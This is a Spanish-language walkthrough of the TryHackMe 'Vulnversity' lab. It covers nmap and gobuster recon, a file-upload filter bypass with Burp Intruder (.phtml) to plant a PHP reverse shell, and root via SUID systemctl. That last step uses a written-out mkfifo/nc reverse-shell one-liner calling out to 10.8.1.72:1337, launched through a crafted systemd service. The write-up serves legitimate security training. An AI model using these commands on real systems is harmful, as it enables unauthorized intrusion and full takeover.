



TryHackMe - Vulnversity

Contenido
| Titulo | Vulnversity |
|---|---|
| Room | Vulnversity |
| Info | Learn about active recon, web app attacks and privilege escalation. |
| Puntos | 3685 |
| Dificultad | Facil |
| Maker | tryhackme |
{ Reconnaissance }
Comenzamos desde esta tarea, la primera es desplegar nuestra maquina. En esta tarea utilizamos nmap una herramienta para realizar un escaneo de hosts, puertos, servicios y ejecutar scripts en una red.
| nmap flag | Descripcion |
|---|---|
| -sv | Determina la version del servicio |
| -p |
Escanea el puerto x o escanea todos los puertos |
| -Pn | Solo escanea puertos abiertos y no hosts |
| -A | Determina la version del SO y ejecuta scripts |
| -sC | Escanea con scripts por default |
| -v | Verbosidad |
| -sU | Puertos UDP |
| -sS | Puertos TCP |
Info From Vulnersity room.
NMAP
Comenzamos escaneando todos los puertos tcp y servicios disponibles en el host y guardar el reporte en un archivo.
# Nmap 7.80 scan initiated Wed Dec 25 15:31:22 2019 as: nmap -sS -T4 -sV -p- -o nmap_scan 10.10.193.246
Nmap scan report for 10.10.193.246
Host is up (0.17s latency).
Not shown: 65529 closed ports
PORT STATE SERVICE VERSION
21/tcp open ftp vsftpd 3.0.3
22/tcp open ssh OpenSSH 7.2p2 Ubuntu 4ubuntu2.7 (Ubuntu Linux; protocol 2.0)
139/tcp open netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
3128/tcp open http-proxy Squid http proxy 3.5.12
3333/tcp open http Apache httpd 2.4.18 ((Ubuntu))
Service Info: Host: VULNUNIVERSITY; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Dec 25 15:45:34 2019 -- 1 IP address (1 host up) scanned in 851.97 seconds
{ Locating directories using GoBuster }
Utilizamos GoBuster para escanear directorios y archivos en la pagina web que esta corriendo en el puerto 3333.
| GoBuster flag | Descripcion |
|---|---|
| -e | Imprime la URL completa |
| -u | La url Objetivo |
| -w | Direccion del wordlist |
| -U | y -P usuario y constraseña para autenticacion |
| -p | |
| -c |
Info From Vulnersity room.
GOBUSTER
root@aoiri:~# gobuster dir -u http://10.10.193.246:3333 -w /usr/share/wordlists/dirb/common.txt
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url: http://10.10.193.246:3333
[+] Threads: 10
[+] Wordlist: /usr/share/wordlists/dirb/common.txt
[+] Status codes: 200,204,301,302,307,401,403
[+] User Agent: gobuster/3.0.1
[+] Timeout: 10s
===============================================================
2019/12/25 15:56:20 Starting gobuster
===============================================================
/css (Status: 301)
/fonts (Status: 301)
/images (Status: 301)
/index.html (Status: 200)
/internal (Status: 301)
/js (Status: 301)
/server-status (Status: 403)
===============================================================
2019/12/25 15:58:19 Finished
===============================================================
Realizamos un escaneo al directorio /internal/.
root@aoiri:~/tryhackme/www# gobuster dir -u http://10.10.193.246:3333/internal/ -w /usr/share/wordlists/dirb/common.txt
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url: http://10.10.193.246:3333/internal/
[+] Threads: 10
[+] Wordlist: /usr/share/wordlists/dirb/common.txt
[+] Status codes: 200,204,301,302,307,401,403
[+] User Agent: gobuster/3.0.1
[+] Timeout: 10s
===============================================================
2019/12/25 16:15:40 Starting gobuster
===============================================================
/.hta (Status: 403)
/.htaccess (Status: 403)
/.htpasswd (Status: 403)
/css (Status: 301)
/index.php (Status: 200)
/uploads (Status: 301)
===============================================================
2019/12/25 16:17:19 Finished
===============================================================
{ Compromise the webserver }
El directorio /internal nos muestra una pagina donde podemos subir archivos.

Al intentar subir un archivo con extension .php, .txt, .jpg nos muestra un mensaje de error.

BURPSUITE
Utilizamos burpsuite para poder capturar la solicitud que hacemos al enviar el archivo, cambiando la extension y enviarla nuevamente con diferentes extenciones las cuales puedan ser interpretadas por php.
OWASP - Unrestricted File Upload
Utilizamos una shell inversa que nos trae Kali Linux (/usr/share/webshells/php/php-reverse-shell.php) cambiamos la ip y el hacia donde va la shell. Intentamos subir este archivo y capturamos la solicitud con burpsuite.

Enviamos la solicitud a Intruder, agregamos un marcador de payload a la extension del archivo para poder hacer la misma solicitud pero con diferente extension.

En la pestaña de payloads agregamos las extensiones que vamos a utilizar.

.php4
.php5
.pht
.phtml
.ini
Comenzamos el ‘Ataque’, al finalizar vemos que una de las solicitudes fue exitosa con la extension .phtml.

Revisamos la pagina de /internal/uploads/ y vemos que nuestro archivo esta ahora en el servidor.

Visitamos nuestro archivo para que se ejecute y obtenemos una shell.

{ Privilege Escalation }
Ahora que tenemos una shell en la maquina podemos buscar una manera para poder obtener permisos root, comenzamos enumerando los archivos SUID con find.

$ find / -perm -4000 2> /dev/null | xargs ls -lah
-rwsr-xr-x 1 root root 31K Jul 12 2016 /bin/fusermount
-rwsr-xr-x 1 root root 40K May 16 2018 /bin/mount
-rwsr-xr-x 1 root root 139K Jan 28 2017 /bin/ntfs-3g
-rwsr-xr-x 1 root root 44K May 7 2014 /bin/ping
-rwsr-xr-x 1 root root 44K May 7 2014 /bin/ping6
-rwsr-xr-x 1 root root 40K May 16 2017 /bin/su
-rwsr-xr-x 1 root root 645K Feb 13 2019 /bin/systemctl
-rwsr-xr-x 1 root root 27K May 16 2018 /bin/umount
-rwsr-xr-x 1 root root 35K Mar 6 2017 /sbin/mount.cifs
-rwsr-sr-x 1 daemon daemon 51K Jan 14 2016 /usr/bin/at
-rwsr-xr-x 1 root root 49K May 16 2017 /usr/bin/chfn
-rwsr-xr-x 1 root root 40K May 16 2017 /usr/bin/chsh
-rwsr-xr-x 1 root root 74K May 16 2017 /usr/bin/gpasswd
-rwsr-xr-x 1 root root 33K May 16 2017 /usr/bin/newgidmap
-rwsr-xr-x 1 root root 39K May 16 2017 /usr/bin/newgrp
-rwsr-xr-x 1 root root 33K May 16 2017 /usr/bin/newuidmap
-rwsr-xr-x 1 root root 53K May 16 2017 /usr/bin/passwd
-rwsr-xr-x 1 root root 23K Jan 15 2019 /usr/bin/pkexec
-rwsr-xr-x 1 root root 134K Jul 4 2017 /usr/bin/sudo
-rwsr-xr-- 1 root messagebus 42K Jan 12 2017 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
-rwsr-xr-x 1 root root 10K Mar 27 2017 /usr/lib/eject/dmcrypt-get-device
-rwsr-xr-x 1 root root 419K Jan 31 2019 /usr/lib/openssh/ssh-keysign
-rwsr-xr-x 1 root root 15K Jan 15 2019 /usr/lib/policykit-1/polkit-agent-helper-1
-rwsr-sr-x 1 root root 97K Jan 29 2019 /usr/lib/snapd/snap-confine
-rwsr-xr-x 1 root root 75K Jul 17 11:22 /usr/lib/squid/pinger
-rwsr-xr-x 1 root root 39K Jun 14 2017 /usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
Podemos observar que entre los binarios se encuentra systemctl, por lo cual vamos a utilizarlo para obtener privilegios root, con los siguientes comandos.
Primero creamos un archivo el cual va ejecutar una shell inversa:
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.8.1.72 1337 >/tmp/f" > /tmp/shell.sh
Creamos un servicio y lo ejecutamos con systemctl.
TF=$(mktemp).service
echo '[Service]
Type=oneshot
ExecStart=/bin/sh -c "bash /tmp/shell.sh"
[Install]
WantedBy=multi-user.target' > $TF
/bin/systemctl link $TF
/bin/systemctl enable --now $TF

Obtenemos una shell con el usuario root.
